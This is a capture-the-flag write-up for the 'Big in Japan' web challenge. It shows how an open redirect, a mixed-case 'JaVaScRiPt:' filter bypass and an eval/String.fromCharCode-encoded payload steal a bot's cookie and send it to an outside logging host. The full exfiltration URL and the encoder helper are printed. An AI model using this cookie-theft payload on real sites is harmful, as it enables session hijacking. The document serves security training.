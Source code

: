 
# Big in Japan

 * Category: Web
 * Solved by the JCTF Team

## Description

> 皆さんこんにちは！ ボット様はURLが必要！急いで作っていきましょう！ 神聖なURLは稲荷神社の賢いキツネに捧げられます

## Solution

For this challenge, we got a simple website with a submission for labeled "Enter
your URL here". If we try to enter just any URL, we get an error: "Please provide a valid URL 
from the big-in-japan.appsecil.ctf.today domain". When we follow the instructions, we get a
different message: "Success: The URL was clicked successfully".

So, we can enter any URL (as long as it belongs to our subdomain, at least supposedly) and some
bot in the background will click it. This usually means that we need to find an XSS vulnerability
and leak the bot's cookie.

In the sources, we have a pretty big helper - an open redirect snippet:

```html
<script>
    const filteredURLFromBackend = "";
    const urlFromFrontend = new URLSearchParams(location.search).get("url");
    if (urlFromFrontend && filteredURLFromBackend) {
        setTimeout(function () {
            location.href = filteredURLFromBackend;
        }, 1000);
    }
</script>
```

So, if we visit `https://big-in-japan.appsecil.ctf.today/?url=https://www.google.com`, we'll
get redirected after a second to `https://www.google.com`.

We can use a service that logs any request made to it and enter a URL such as the following:

```
https://big-in-japan.appsecil.ctf.today/?url=https://jctf1.free.beeceptor.com/
```

In such a case, the redirect snippet will be as follows:

```html
<script>
    const filteredURLFromBackend = "https://jctf1.free.beeceptor.com/";
    const urlFromFrontend = new URLSearchParams(location.search).get("url");
    if (urlFromFrontend && filteredURLFromBackend) {
        setTimeout(function () {
            location.href = filteredURLFromBackend;
        }, 1000);
    }
</script>
```

After a short while we should get a hit in the service from the bot's visit. Once we've
confirmed that, we can proceed to the next stage - leaking the cookies.

We want to be able to execute some Javascript code to get the cookie and somehow include
its content in the request to our server (for example, by appending it to the URL path).
How do we do that?

Luckily, we can use `javascript:` URLs for that - these are special URL-like entities which
actually execute Javascript. For example, we can try to visit `https://big-in-japan.appsecil.ctf.today/?url=javascript:alert(1)`
and see what happens. However - we get an error: "Error: The URL contains a banned word: javascript".
It looks like they're blocking this keyword to protect against these kind of URLs.
Fortunately, their filter is very simple, and more specifically - case sensitive, since
visiting `https://big-in-japan.appsecil.ctf.today/?url=JaVaScRiPt:alert(1)` actually triggers
an alert!

We continue crafting our malicious code, and move on to trying to make a request via Javascript:

```
https://big-in-japan.appsecil.ctf.today/?url=JaVaScRiPt:fetch('https://jctf1.free.beeceptor.com/')
```

This however becomes the following, meaning that our string is being escaped:

```html
<script>
    const filteredURLFromBackend = "JaVaScRiPt:fetch(&amp;#39;https://jctf1.free.beeceptor.com/&amp;#39;)";
    const urlFromFrontend = new URLSearchParams(location.search).get("url");
    if (urlFromFrontend && filteredURLFromBackend) {
        setTimeout(function () {
            location.href = filteredURLFromBackend;
        }, 1000);
    }
</script>
```

To bypass that, we'll use `eval` and `String.fromCharCode` to encode our payload:

```javascript
location.href="https://jctf1.free.beeceptor.com/" + document.cookie
```

We can define a Python helper function to encode any string we want:

```python
>>> to_fromcharcode = lambda s: f"String.fromCharCode({','.join(str(ord(c)) for c in s)})"
>>> to_fromcharcode('location.href="https://jctf1.free.beeceptor.com/" + document.cookie')
'String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,115,58,47,47,106,99,116,102,49,46,102,114,101,101,46,98,101,101,99,101,112,116,111,114,46,99,111,109,47,34,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101)'
```

The result doesn't include quotes, making it safe to use in our case.

Finally, we submit the following URL:

```
https://big-in-japan.appsecil.ctf.today/?url=JaVaScRiPt:eval(String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,115,58,47,47,106,99,116,102,49,46,102,114,101,101,46,98,101,101,99,101,112,116,111,114,46,99,111,109,47,34,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))
```

A few seconds later, we get a hit on our server: `flag=AppSec-IL%7Bomedetto%7D`.

The flag: `flag=AppSec-IL{omedetto}`